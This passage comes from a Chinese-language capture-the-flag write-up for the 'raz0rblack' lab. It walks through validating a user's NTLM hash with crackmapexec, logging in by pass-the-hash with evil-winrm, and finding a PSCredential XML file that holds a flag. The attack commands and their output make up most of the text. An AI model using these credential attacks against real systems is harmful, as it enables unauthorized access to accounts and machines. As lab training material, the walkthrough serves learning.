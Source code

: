 ```
**crackmapexec smb 10.10.105.22 -u lvetrova -H userhashes[+] raz0rblack.thm\lvetrova:f220d3988deb****************
```

****现在我们有了用户的散列，我们可以使用 **evil-winrm** 来执行一个传递散列攻击来登录。****

```
**evil-winrm -u lvetrova -H f220d3988deb3f***** -i 10.10.105.22 -N**
```

****我开始枚举目标，找到一个名为***“lvetrova . xml*”**的 XML 文件。****

```
***Evil-WinRM* PS C:\Users\lvetrova> dirDirectory: C:\Users\lvetrovaMode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:14 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
**-a----        2/25/2021  10:16 AM           1692 lvetrova.xml****
```

****我使用了 **type** 命令来显示文件的内容，我可以看到这是一个 PSCredential PowerShell xml 文件。PSCredential 对象**表示一组安全凭证，比如用户名和密码**。****

****![](img/1ef5d7e75babd253a097c6e3badbc4d1.png)****

****PSCredential PowerShell xml 文件。****

****我们可以使用 [PowerShell](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx) 读取 xml 文件中存储的标志，如下所示。****

****![](img/5142201ea171b7e622a685873b084b40.png)****
